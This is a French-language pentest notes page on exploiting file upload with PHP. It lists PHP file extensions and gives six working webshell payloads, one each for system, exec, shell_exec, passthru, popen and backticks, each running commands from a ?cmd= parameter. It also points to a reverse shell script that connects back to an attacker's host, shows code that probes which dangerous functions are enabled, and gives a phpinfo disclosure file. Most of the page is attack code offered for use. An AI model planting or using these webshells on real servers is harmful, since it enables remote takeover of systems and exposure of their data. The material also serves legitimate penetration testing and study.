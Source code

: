 # PHP

![](logo.png)

**Facteur de risque** : RCE via webshell, Information DIsclosure

**Extension** : `.php`, `.php3`, `.php4`, `.php5`, `.php7`, `.phar`, `.phps`, `php-s`, `.phpt`, `.pht`, `.phtm`, `.phtml`, `.inc`

**Description** : **PHP: Hypertext Preprocessor**, plus connu sous son sigle **PHP**, est un "langage de programmation" libre, principalement utilisé pour produire des pages Web dynamiques via un serveur HTTP (*Apache, lighttpd, nginx...*).

## Sommaire

- Remote Code Execution

- Information Disclosure

## Remote Code Execution

PHP possède plusieurs fonctions qui permettent d'exécuter des commandes : `system`, `exec`, `shell_exec`, `passthru`,`popen`, `proc_open`, et l'utilisation de backticks. Certaines de ces fonctions peuvent être désactivés pour des raisons de sécurités. Essayez dans ce cas les autres fonctions, au cas où s'ils ont oublié.

### Pré-requis

- Le fichier doit être accessible après avoir été uploadé

- Le serveur doit supporter le PHP

- Les fonctions d'exécution en PHP doivent être activés

- Les fichiers stockés doivent être exécutés via PHP (même pour les images)
  
  - Impossible de nos jours. La configuration par défaut de PHP consiste à exécuter l'interpréteur PHP uniquement pour les fichiers .php, à l'aide de NGinx, Apache, Lighttpd etc...

### Payload

#### system

```php
<?php
echo "<pre>";
system($_GET['cmd']);
echo "</pre>";
?>
```

La fonction `system` accepte la commande comme paramètre de la fonction, puis affiche le résultat.

Pour lui envoyer des commandes, ajouter `?cmd=` suivi de la commande souhaité. La commande dépendra du serveur (`dir` sur Windows ou `ls`Linux par exemple).

#### exec

```php
<?php
exec($_GET['cmd'], $array);
echo "<pre>";
print_r($array);
echo "</pre>";
?>
```

La fonction `exec` accepte la commande comme paramètre de la fonction, mais n'affiche pas de sortie. Il faut spécifier un deuxième paramètre (ici `$array`) pour avoir le résultat sous forme de tableau. Puis `print_r` est utilisé pour afficher le résultat.

Pour lui envoyer des commandes, ajouter `?cmd=` suivi de la commande souhaité. La commande dépendra du serveur (`dir` sur Windows ou `ls`Linux par exemple).

#### shell\_exec

```php
<?php
$output = shell_exec($_GET['cmd']);
echo "<pre>$output</pre>"
?>
```

La fonction `shell_exec` accepte la commande comme paramètre de la fonction, et retourne le résultat sous forme ce chaîne. Puis `echo` est utilisé pour afficher le résultat.

Pour lui envoyer des commandes, ajouter `?cmd=` suivi de la commande souhaité. La commande dépendra du serveur (`dir` sur Windows ou `ls`Linux par exemple).

#### passthru

```php
<?php
passthru($_GET['cmd']);
?>
```

La fonction `passthru` accepte la commande comme paramètre de la fonction, et affiche le résultat brut.

Pour lui envoyer des commandes, ajouter `?cmd=` suivi de la commande souhaité. La commande dépendra du serveur (`dir` sur Windows ou `ls`Linux par exemple).

#### popen

```php
<?php
$handle = popen($_GET['cmd'],'r');
echo "<pre>".fread($handle,4096)."</pre>";
pclose($handle);
?>
```

La fonction `popen` crée un processus, qui est terminé avec `pclose`.

Pour lui envoyer des commandes, ajouter `?cmd=` suivi de la commande souhaité. La commande dépendra du serveur (`dir` sur Windows ou `ls`Linux par exemple).

#### Backticks `

```php
<?php
$output = `$_GET['cmd']`;
echo "<pre>$output</pre>";
?>
```

PHP exécute le contenu entre backticks comme des commandes. Puis le résultat est affiché avec `echo`, avec les balises `<pre>` pour garder le résultat préformaté.

Pour lui envoyer des commandes, ajouter `?cmd=` suivi de la commande souhaité. La commande dépendra du serveur (`dir` sur Windows ou `ls`Linux par exemple).

#### proc_open

La fonction `proc_open` est plus complexe à utiliser. Elle est utilisé dans le reverse shell de  pentestmonkey.net : http://pentestmonkey.net/tools/php-reverse-shell .

Ce script est conçu pour les situations où, lors d'un test d'intrusion, une fonction de téléversement de fichiers existe, et que le serveur web qui exécute le PHP.

Exécutez le fichier en accédant à son URL. Le script ouvrira une connexion TCP du serveur web vers un hôte et un port de votre choix.

Si, pour une raison ou une autre, le webshell ne fonctionne pas, nous pouvons passer aux commandes à l'ancienne comme system, exec, shell\_exec, passthru... etc. 

### Quels fonctions sont activés ?

Le code PHP suivant permet de déterminer les fonctions dangereuses autorisés :

```php
<?php
echo "<pre>";
print_r(preg_grep("/^(system|exec|shell_exec|passthru|proc_open|popen|curl_exec|curl_multi_exec|parse_ini_file|show_source)$/", get_defined_functions(TRUE)["internal"]));
echo "</pre>";
?>
```

## Information Disclosure

### Pré-requis

- Le fichier doit être accessible après avoir été uploadé

- Le serveur supporte le PHP

### Payload

La fonction `phpinfo` affiche de nombreuses informations sur la configuration de PHP, ce qui constitue une divulgation d'information.

**phpinfo.php**

```php
<?php
phpinfo();
?>
```

## References

[Web Shells 101 Using PHP (Web Shells Part 2) | Acunetix](https://www.acunetix.com/blog/articles/web-shells-101-using-php-introduction-web-shells-part-2/)

[PHP: popen - Manual](https://www.php.net/manual/en/function.popen.php)

https://www.dynamicciso.com/web-shells-in-php-detection-and-prevention-part-1/

[security - Exploitable PHP functions - Stack Overflow](https://stackoverflow.com/questions/3115559/exploitable-php-functions)

[[Résolu] Fonctions PHP plus exploitables | php | Prograide.com](https://prograide.com/pregunta/2693/fonctions-php-plus-exploitables)

[php-reverse-shell | pentestmonkey](http://pentestmonkey.net/tools/web-shells/php-reverse-shell)

## Todo

- Vérifier les fonctions définies en PHP
- Faire un webshell avec proc\_open, pcntl\_exec ou eval(), preg\_match() avec le flag /e
- Ajouter les différents payloads avec les diférents extentsions de PHP
- Vérifier qu'un paramètre est présent
- 
